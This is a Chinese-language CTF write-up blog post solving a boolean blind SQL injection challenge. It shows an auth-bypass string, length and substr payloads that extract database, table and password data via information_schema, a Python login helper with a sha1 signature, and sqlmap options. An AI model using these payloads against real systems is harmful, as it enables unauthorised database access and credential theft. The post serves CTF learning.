 ```yaml
---
layout: post
title:  "布尔盲注的白给式利用"
date:   2019-05-29
desc: "苟利国家生死以,岂因祸福避趋之"
keywords: none
categories: [Blue-whale,Web]
tags: [sql,web]
icon: icon-html
---
```


# I Am Blind~~（我，星际玩家）~~

题目链接: [http://pwn1.blue-whale.me:23335/](http://pwn1.blue-whale.me:23335/)

这题目都把盲注两个字写脸上了

先`admin'#`试试

发现显示`success login, and flag is your password.`

得，一位一位试就完事了

## 手工注入或脚本注入

> 纯手工

- 库名获取

先把库名长度爆出来

```mysql
admin' and length(database()) = $长度
```

一个一个地试他娘的，试的时候直接对10二分了，还是挺快的

这里得到了库名长度

然后就需要一位一位地获取库名的字符

```mysql
admin' and substr(database(), $位置, 1) = $字符
```

二分比较快wdnmd

- 表名获取

~~我会告诉你库名实际上没什么用？~~

同理先把表名长度爆出来

```mysql
admin' and (select length(table_name) from information_schema.tables where table_schema = database() limit 0,1) = $长度#
```

同理

```mysql
admin' and substr((select table_name from information_schema.tables where table_schema = database() limit 0, 1), $位置, 1) = $字符#
```

- 字段名获取

盲猜`username`和`password`

试一试还真是

- flag获取

一位一位试就是了

```mysql
admin' and substr((select password from $表名 order by id limit 0, 1), $位置, 1) = $字符#
```

反正前五位`flag{`和最后一位`}`是固定的

> 脚本注入

什么你想要脚本？自己慢慢写吧

网上找的login函数

需要注意的是此处POST方法使用了`signature`来进行*sha1*校验，别的就没啥注意事项了

```python
def login(_username, _password):
    url = "http://pwn1.blue-whale.me:23335/index.php"
    data = {
        "username": _username,
        "password": _password,
        "signature": hashlib.sha1(_username + _password).hexdigest()
    }
    response = requests.post(url, data)
    content = response.content
    #print content
    if "success" in content:
        return True
    else:
        return False
```

## SQLMAP

> sqlmap用法

- -u 后接url，指定访问的地址

- \-\-data

  后面接参数表，用于POST方法

- \-\-eval

  设定由某个参数或多个参数决定的变量，如本题**signature**

```shell
--eval="import hashlib;signature=hashlib.sha1(username+password).hexdigest()"
```

- \-\-current-db

  获取当前数据库名

- \-\-tables

  获取数据表名

- \-\-columns

  获取字段名

- \-\-dump

  获取字段值

- -D

  设定数据库名

- -T

  设定数据表名

- -C

  设定字段名

**综上，此题白给**

